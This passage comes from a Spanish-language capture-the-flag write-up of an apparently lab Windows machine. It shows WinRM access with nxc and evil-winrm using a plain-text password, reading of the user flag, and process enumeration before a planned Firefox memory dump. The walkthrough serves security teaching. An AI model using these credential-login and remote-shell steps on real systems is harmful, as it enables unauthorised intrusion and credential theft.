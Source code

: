 En la enumeración de **Nmap**, verificamos que el WinRM se encontraba abierto. Por lo tanto, probaremos de validar si a través del usuario `chase` podemos conectarnos al equipo.

Verificamos que disponemos de los permisos adecuados, nos conectaremos al equipo y visualizaremos la flag de **user.txt**.

```bash
❯ nxc winrm 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'
WINRM       10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)

❯ evil-winrm -i 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> type ../Desktop/user.txt
a06465920be*********************
```

## Privilege Escalation

### Creating a dump file of the Firefox Process - Procdump64.exe (Windows Sysinternals)

Revisando los procesos que se encuentran en ejecución, nos encontramos que existen varios de ellos que son del navegador Firefox, un tanto inusual.

```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    465      18     2260       5440               368   0 csrss
    290      13     2340       5224               484   1 csrss
    357      15     3508      14560              3004   1 ctfmon
    252      14     3920      13212              3852   0 dllhost
    166       9     1876       9824       0.08   4320   1 dllhost
    617      32    30136      57808               964   1 dwm
   1494      58    24076      78476              5196   1 explorer
    378      28    21912      58856       0.38   1372   1 firefox
    355      25    16400      39096       0.11   5412   1 firefox
   1075      69   139428     217192       5.83   6716   1 firefox
    347      19    10256      36936       0.08   6936   1 firefox
    401      33    31076      88420       0.91   7128   1 firefox
```
